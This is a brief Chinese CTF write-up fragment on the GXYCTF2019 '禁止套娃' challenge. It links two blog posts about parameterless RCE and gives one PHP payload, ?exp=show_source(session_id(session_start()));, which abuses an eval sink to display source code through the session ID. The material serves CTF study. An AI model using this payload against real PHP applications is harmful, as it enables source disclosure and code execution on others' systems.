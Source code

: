 # WP
[无参数RCE总结_L1am0ur的博客-CSDN博客](https://blog.csdn.net/Manuffer/article/details/120738755)<br />[[GXYCTF2019]禁止套娃1（两种方法）_hcjtn的博客-CSDN博客](https://blog.csdn.net/m0_62879498/article/details/124538469)
# 知识点
无参RCE
```powershell
?exp=show_source(session_id(session_start()));
```
